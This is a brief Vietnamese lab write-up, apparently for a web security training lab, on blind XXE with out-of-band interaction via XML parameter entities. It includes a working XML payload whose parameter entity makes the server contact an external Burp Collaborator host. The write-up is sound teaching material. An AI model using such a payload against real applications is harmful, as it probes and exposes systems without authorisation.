



# Lab: Blind XXE with out-of-band interaction via XML parameter entities

## Mô tả lab

Ứng dụng có chức năng kiểm tra hàng tồn kho tồn tại lỗ hổng XXE, kết quả không hiển thị lại. Ngoài ra ứng dụng chặn một số dạng XXE. Mục tiêu là thực hiện DNS lookup và HTTP request tới Burp Collaborator bằng cách dùng XML parameter entity.

## Các bước thực hiện

### Phân tích

Vẫn là trang web bán hàng với chức năng stock check. Giống lab trước, không có phần nào của input được đưa vào response, nên không thể khai thác hay phát hiện XXE trực tiếp.

Việc khai báo một regular entity và dùng nó trong tài liệu bị ứng dụng chặn. Tuy nhiên, dùng parameter entity (`% name`) và tham chiếu nó bên trong DTD lại được cho phép.

### Khai thác

Khai báo và sử dụng một parameter entity để tạo request tới Burp Collaborator:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY % xxe SYSTEM "http://k3o25mltz0j6au68o3m862jdx43wrofd.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```



Poll Burp Collaborator client, sẽ thấy vài hit từ server:





Lab solved.
